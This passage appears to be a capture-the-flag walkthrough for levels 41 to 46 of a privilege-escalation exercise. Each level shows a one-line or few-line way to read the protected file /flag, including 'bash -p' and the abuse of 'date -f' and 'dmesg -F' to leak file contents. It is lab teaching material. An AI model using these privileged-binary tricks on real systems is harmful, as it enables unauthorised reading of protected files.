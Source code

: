 ## Level 41

Steps:

```perl
open(fh, '/flag') or die;
$flag = <fh>;
print "$flag";
```

## Level 42

Steps:

```python
open("/flag", 'r').read()
```

## Level 43

Steps:

```ruby
file = File.open('/flag')
flag = file.read
print flag
```

## Level 44

Steps:

```bash
bash -p
cat /flag
```

## Level 45

Steps:

```bash
date -f /flag
```

## Level 46

Steps:

```bash
dmesg -F /flag
```

## Level 47
